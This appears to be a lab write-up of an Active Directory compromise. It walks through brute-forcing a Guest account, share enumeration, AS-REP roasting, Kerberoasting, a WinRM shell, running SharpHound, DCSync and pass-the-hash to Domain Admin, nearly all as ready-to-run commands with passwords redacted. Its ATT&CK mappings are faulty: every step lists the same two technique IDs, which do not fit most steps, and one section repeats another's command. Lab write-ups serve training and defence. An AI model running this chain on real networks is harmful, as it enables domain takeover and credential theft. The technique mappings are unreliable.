

# Attack Scenarios (mapped to MITRE ATT&CK)
Passwords and hashes have been concealed to retain confidentiality.

## <u>Brute Forcing Guest Account</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Guest' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding`
{ loading=lazy }

## <u>Enumerating SMB Shares</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`nxc smb 192.168.25.141 -u 'Guest' -p '_________' --shares`
{ loading=lazy }

## <u>ASReproast Domain Account</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Bob' -p '' --asreproast asreproast.txt`
{ loading=lazy }
`john --wordlist=/usr/share/wordlists/rockyou.txt asreproast.txt`
{ loading=lazy }

## <u>WinRM Shell with Domain Account</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`nxc winrm 192.168.25.137 -u 'Bob' -p '_________’`
{ loading=lazy }
`evil-winrm -i 192.168.25.137 -u 'bob' -p '_________’`
{ loading=lazy }

## <u>Upload and Execution of SharpHound</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`upload SharpHound.exe`
{ loading=lazy }
`./SharpHound.exe`
{ loading=lazy }

## <u>Exfiltration of Data Collected by SharpHound</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`download 20250910173643_BloodHound.zip`
{ loading=lazy }

## <u>Bloodhound</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`download 20250910173643_BloodHound.zip`
{ loading=lazy }

## <u>Kerberoast of Service Account</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Bob' -p '_________' --kerberoasting kerbroast.txt`
{ loading=lazy }
`john --wordlist=/usr/share/wordlists/rockyou.txt kerbroast.txt`
{ loading=lazy }

## <u>DCSync</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`impacket-secretsdump -just-dc LAB/svc-test:'_________'@WIN-LLBIAPV2E9D.lab.local`
{ loading=lazy }

## <u>Pass-the-hash to Login as Domain Admin</u>
- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
- **Procedure:**

`evil-winrm -i 192.168.25.137 -u 'Administrator' -H '__________________’`
{ loading=lazy }
